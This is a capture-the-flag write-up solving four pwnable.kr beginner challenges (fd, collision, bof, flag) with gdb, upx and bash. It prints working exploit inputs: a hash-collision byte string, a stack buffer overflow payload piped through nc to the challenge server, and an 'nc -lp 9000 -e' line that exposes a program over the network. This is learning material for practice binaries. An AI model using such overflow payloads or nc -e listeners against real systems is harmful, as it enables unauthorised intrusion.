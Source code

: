 Toddler's Bottle
================

Codes: https://gist.github.com/siddharthasahu/f46a965d7ce34a4b24cc

fd
--

A simple one.

* atoi(const char *str): Converts the char stream of digits to int 
* read(int fdes, void *buf, size_t nbyte): Reads `nbytes` bytes into `buf` variable from `fdes` file descriptor. [http://codewiki.wikidot.com/c:system-calls:read]
* Hex to decimal conversions in bash: http://stackoverflow.com/questions/13280131/hexadecimal-to-decimal-in-shell-script

Rest is simply setting the file descriptor to stdin and passing the matching string:  
`echo "LETMEWIN" | ./fd 4660`  
or even better: `echo "LETMEWIN" | ./fd $(printf "%d" 0x1234)`

Pwned!

collision
---------

This one led to a revision of signed vs unsigned integers, data ranges in C and interplay between binary, ASCII and hex.

* New bash commands: `od`, `xxd`, data conversion in `bc`
* Need to take care of byte ordering
* http://stackoverflow.com/questions/9487037/passing-binary-data-as-arguments-in-bash

The trick is to pass in 20 bytes which is picked in the form of 5 ints and added to get the result.

One of the possible answers: `$'\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01'`

bof
---

Finally get to learn buffer overflows!

* Needs gdb debugging skills
* Function call conventions in x86: http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html

Objective is to replace the value of `key`. So basically one needs to calculate the position of the `key` variable in the stack and send an appropriate input so that it replaces `key` with desired data (0xcafebabe in this case).

GDB commands
$ gdb ./bof
(gdb) break func
(gdb) r
(gdb) disassemble

* From `lea    -0x2c(%ebp),%eax` in func+29, we come to know that the position of the `overflowme` variable in the stack, where our input starts getting stored is -0x2c = 44 bytes below the frame pointer (ebp).
* From function calling conventions, stack order is: function arguments -> eip (4 bytes) -> ebp (4 bytes) -> local variables. So position of `key` is 44 + 4 + 4 = 52 bytes from `overflowme` in the stack.
* From above and keeping in mind little endian systems, input can be: "a"*52+$'\xbe'$'\xba'$'\xfe'$'\xca'
* Trying: `echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"$'\xbe'$'\xba'$'\xfe'$'\xca' | nc pwnable.kr 9000`. Does not work.
* I did not solve this, but apparently the above format is closing the shell before commands can be sent.
* Repeat a character in bash: http://stackoverflow.com/questions/5349718/how-can-i-repeat-a-character-in-bash
* Final solution: `(echo $(printf "=%.0s" {1..52};printf "\xbe\xba\xfe\xca");cat) | nc pwnable.kr 9000`

TODO: Investigate why subshell with cat is needed here.

NOTES:  
* If you try to insert a random big input, it gives a "stack smashing detected" error. Interesting to know, but not relevant to this problem, because the hack is in the function itself.
* For running the binary locally: `while true;do nc -lp 9000 -e ./bof;done` (kill shell to exit)

flag
---

Given just a binary, how to analyse!

% `./flag`  
I will malloc() and strcpy the flag there. take it.

% `objdump -D flag`  
flag:     file format elf64-x86-64

So, flag is in the binary itself, but the objdump is not succeeding. Expected that it wouldn't be that easy.  

Lets see if we can extract some strings:  
$ `strings < flag`  
...  
$Info: This file is packed with the UPX executable packer http://upx.sf.net $  
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $  
...

Jackpot! So the binary has been packed. Lets install upx and unpack it.  
$ `upx -d ./flag`

Now we can run normal gdb commands:  
$ `gdb ./flag`
(gdb) break main
(gdb) r
(gdb) disassemble

* So the function copies the global (because of %rip usage) `flag` variable data to the malloc alllocated memory. We just need to find the address of the flag variable.
* We can notice the address gets copied to the %rsi register. So setting a breakpoint after the values are copied, we can extract the address.

(gdb) break *0x401195   => address after values are copied, so after the mov %rdx,%rsi and mov %rax,%rdi commands
(gdb) s
(gdb) p/x $rsi        => eg 0x496628
(gdb) x/100c $rsi     => Printing flag in character form, we get the string.

Fun!
